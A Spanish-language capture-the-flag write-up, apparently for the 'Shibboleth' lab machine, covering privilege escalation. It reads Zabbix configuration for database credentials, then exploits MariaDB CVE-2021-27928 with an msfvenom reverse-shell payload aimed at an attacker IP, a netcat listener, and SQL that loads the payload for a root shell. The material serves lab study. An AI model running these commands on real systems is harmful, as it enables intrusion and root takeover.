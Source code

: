 En el archivo de configuración del servidor Zabbix encontramos credenciales:

```bash
cat /etc/zabbix/zabbix_server.conf | grep -v "#"
```

![Credenciales encontradas](/secciones/posts/imagenes/shibboleth/creds.webp)

### Análisis de puertos internos

```bash
ss -tlnp
```

MySQL se está ejecutando en el puerto 3306.

## Explotación CVE-2021-27928

La versión de MariaDB es vulnerable al **CVE-2021-27928**.

**Descripción de la vulnerabilidad:** Una ruta de búsqueda que no es de confianza conduce a una inyección de evaluación, en la que un SUPER usuario de la base de datos puede ejecutar comandos del sistema operativo después de modificar `wsrep_provider` y `wsrep_notify_cmd`.

**Referencias:**
- https://nvd.nist.gov/vuln/detail/CVE-2021-27928
- https://github.com/Al1ex/CVE-2021-27928

### Explotación

1. **Crear payload malicioso:**
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.15.21 LPORT=443 -f elf-so -o test.so
```

2. **Configurar listener:**
```bash
nc -lvnp 443
```

3. **Transferir archivo a la máquina objetivo**

4. **Ejecutar exploit:**
```sql
mysql -u zabbix -p
SET GLOBAL wsrep_provider="/tmp/test.so";
```

## Obtención de acceso root

Después de ejecutar el exploit, obtenemos una reverse shell como root. Buscamos la flag de root y completamos la máquina.

---

**Nota:** Algunos writeups pueden tener contenido de otras páginas o pocas imágenes debido a que en algunas máquinas no se tomaron apuntes completos o capturas de pantalla. Se han consultado varios writeups para complementar la información y proporcionar la mejor explicación posible.
